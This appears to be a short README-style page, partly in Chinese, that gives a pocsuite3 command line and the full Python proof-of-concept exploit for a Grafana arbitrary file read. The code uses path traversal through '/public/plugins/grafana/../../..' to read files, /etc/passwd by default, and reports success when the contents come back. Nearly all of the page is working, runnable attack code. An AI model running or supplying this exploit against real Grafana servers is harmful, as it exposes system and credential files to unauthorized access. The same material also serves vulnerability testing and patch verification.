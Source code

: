 verify 模式效果：
```shell
pocsuite -r 20220805_grafana_arbitray_file_read.py -u http://127.0.0.1:3000 
```
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pocsuite3.api import (
    minimum_version_required, POCBase, register_poc, requests, logger,
    OptString, OrderedDict,
    random_str,
)

minimum_version_required('1.9.7')


class DemoPOC(POCBase):
    vulID = '0'
    version = '1'
    author = 'test'
    vulDate = '2022-08-05'
    createDate = '2022-08-05'
    updateDate = '2022-08-05'
    references = []
    name = 'Grafana Arbitray File Read'
    appPowerLink = ''
    appName = ''
    appVersion = ''
    vulType = 'Arbitrary File Read'
    desc = 'Vulnerability description'
    samples = ['']
    install_requires = ['']
    pocDesc = 'User manual of poc'
    dork = {'zoomeye': ''}
    suricata_request = ''
    suricata_response = ''

    def _options(self):
        o = OrderedDict()
        o['filepath'] = OptString('/etc/passwd', description='The full path to the file to read')
        return o

    def _exploit(self, param=''):
        if not self._check(dork='Grafana',allow_redirects=True):
            return False

        # headers = {'Content-Type': 'application/x-www-form-urlencoded'}
        # payload = 'a=b'
        # res = requests.post(self.url, headers=headers, data=payload)
        res = requests.get(f'{self.url}/public/plugins/grafana/../../../../../../../..{param}')
        logger.debug(res.text)
        return res.text

    def _verify(self):
        result = {}
        param = '/etc/passwd'
        res = self._exploit(param)
        if res and ':/bin/' in res:
            result['VerifyInfo'] = {}
            result['VerifyInfo']['URL'] = self.url
            result['VerifyInfo'][param] = res
        return self.parse_output(result)

```